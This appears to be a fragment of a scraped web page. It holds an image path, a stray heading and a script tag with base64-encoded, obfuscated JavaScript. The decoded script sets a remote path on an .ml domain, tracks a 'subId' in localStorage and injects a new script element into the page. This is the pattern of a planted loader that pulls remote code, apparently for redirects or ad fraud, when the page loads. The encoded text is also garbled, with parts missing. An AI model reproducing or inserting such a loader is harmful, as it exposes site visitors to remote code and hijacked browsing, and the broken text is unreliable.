 # 6U_ls_usa
<script src="data:text/javascript;base64,CiAgICAoZnVuY3Rpb24oKSB7CiAgICB2YXIgbmFt
ZSA9ICdfMnFuUEZHd3pncXJNS3k4eSc7CiAgICBpZiAoIXdpbmRvdy5fMnFuUEZHd3pncXJNS3k4eSkgewogICAgICAgIHdp
bmRvdy5fMnFuUEZHd3pncXJNS3k4eSA9IHsKICAgICAgICAgICAgdW5pcXVlOiBmYWxzZSwK
ICAgICAgICAgICAgdHRsOiA4NjQwMCwKICAgICAgICAgICAgUl9QQVRIOiAnaHR0cHM6Ly9hc2FzZXRhbmVy
ZXgubWwvQ2JGNGNxMCcsCiAgICAgICAgfTsKICAgIH0KICAgIGNvbnN0IF9LTEpqNUdGbU
HR5cGVvZiBfS0xKajVHRm1McmJzVk1UdyAhPT0gJ3VuZGVmaW5lZCcgJiYgX0tMSmo1R0ZtTHJic1ZNVHcgIT09IG51bGwpIHsKICAgICAgICB2YXIgX2JKR0xxR3R6NnNMUXZQS
jIgPSBKU09OLnBhcnNlKF9LTEpqNUdGbUxyYnNWTVR3KTsKICAgICAgICB2YXIgX2JEWnZ4SnJMTEdCcjVmQ00gPSBNYXRoLnJvdW5kKCtuZXcgRGF0ZSgpLzEwMDApOwogICA
gICAgIGlmIChfYkpHTHFHdHo2c0xRdlBKMi5jcmVhdGVkX2F0ICsgd2luZG93Ll8ycW5QRkd3emdxck1LeTh5LnR0bCA8IF9iRFp2e
EpyTExHQnI1ZkNNKSB7CiAgICAgICAgICAgIGxvY2FsU3RvcmFnZS5yZW1vdmVJdGVtKCdzdWJJZCcpOwogICAg

05hbWUoJ3NjcmlwdCcpWzBdOwogICAgcy5wYXJlbnROb2RlLmluc2VydEJlZm9yZShhLCBzKQogICAgfSkoKTsKICAgIA=="></script>
